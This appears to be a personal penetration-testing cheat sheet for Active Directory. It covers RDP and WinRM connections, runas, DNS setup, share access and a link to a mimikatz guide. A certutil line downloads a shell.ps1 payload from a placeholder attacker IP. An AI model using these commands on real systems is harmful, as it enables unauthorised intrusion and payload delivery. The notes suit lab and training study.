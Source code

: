 # Active Directory


RDP to connect to jumphost: `xfreerdp /u:${DOMAIN}\\${user} /p:${password} /cert:ignore /v:$RHOST`
In order to add a shared drive with `xfreedrp`, use `/drive:tmp,/tmp`.
Note that the shared drive can now be accessed programmatically by using the path `\\tsclient\tmp` on the Windows host.


## evil-winrm

Connect to windows host via WinRM with (from kali)
```
evil-winrm -i ${RHOST} -u ${USER} -p ${PW}
```
special characters might need to be escaped from the password.

## Enumeration

### Initial setup

Set network connection credentials to given user on Windows with:
```
runas.exe /netonly /user:<domain>\<username> cmd.exe
```
Commands used for configuring DNS to the domain controller manually in PS:
```
$dnsip = "${DC_IP}"
$index = Get-NetAdapter -Name '${Network_Interface}' | Select-Object -ExpandProperty 'ifIndex'
Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip
```
`${Network_Interface}` is interface of the network


verify by using nslookup afterwards.


## Post Exploit

[mimikatz cheatsheet](https://kashz.gitbook.io/kashz-jewels/cheatsheet/mimikatz)


## CMD commands to remember

CMD equivalent of wget
```
certutil.exe -urlcache -split -f http://{ATTACKER_IP}:{ATTACKER_PORT}/shell.ps1
```

grep equivalent for cmd: `findstr`

remove a file with force: `del /f`



## Access shared drives

Assuming there is a shared drive on `${COMPUTER_NAME}\shared`, and we have a powershell prompt with access to this shared drive,
we can just do eg `ls ${COMPUTER_NAME}\shared` and other cli commands.

This also works if we have loaded a TGS that grants the access.
